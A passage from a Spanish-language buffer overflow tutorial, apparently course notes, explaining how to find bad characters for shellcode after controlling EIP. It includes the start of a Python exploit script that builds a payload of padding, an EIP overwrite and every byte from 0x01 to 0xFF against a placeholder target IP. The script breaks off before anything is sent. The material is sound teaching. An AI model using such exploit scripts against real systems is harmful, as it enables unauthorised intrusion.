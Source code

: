 En resumen, controlar el EIP es un hito importante en un ataque de desbordamiento de búfer, y este proceso prepara el terreno para la explotación total del sistema.

<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#008f11">9. Identificando Caracteres Malos.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />


En esta sección, se aborda el **concepto de caracteres** malos en relación con la generación de **shellcode**. Al generar shellcode, es crucial identificar qué caracteres son seguros y cuáles pueden causar problemas durante la inyección de código. Estos caracteres "malos" son aquellos que, al estar presentes en el shellcode, pueden provocar comportamientos inesperados o interrumpir su ejecución.

### ¿Qué son los caracteres malos?

Un **carácter malo** es cualquier valor hexadecimal que podría interferir con el flujo del programa o el shellcode, ya sea porque tiene un significado especial para el programa o porque afecta cómo se procesan los datos. Por defecto, el primer carácter malo conocido es el **byte nulo (\x00)**, ya que este marca el final de una cadena en muchos lenguajes de programación. Además del byte nulo, cada programa puede tener otros caracteres que interfieran con la ejecución del shellcode.

Link con `badchars`: [Link](https://github.com/cytopia/badchars)

### Proceso para identificar caracteres malos

El procedimiento para identificar estos caracteres implica pasar todos los valores hexadecimales posibles (de **0x01** a **0xFF**) a través del programa para observar si alguno causa problemas.

### Modificación del Script

Para comenzar, es necesario modificar el script que sobrescribió el **EIP** en la etapa anterior, agregando una secuencia de todos los caracteres hexadecimales posibles (exceptuando el byte nulo, que se conoce como problemático). Esta secuencia se añadirá después de los bytes que sobrescriben el **EIP**.

El script modificado debería verse así:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
shellcode = "A" * 2003 + "B" * 4 + badchars
ip_address = 'reemplazar por la ip del target'

try:
```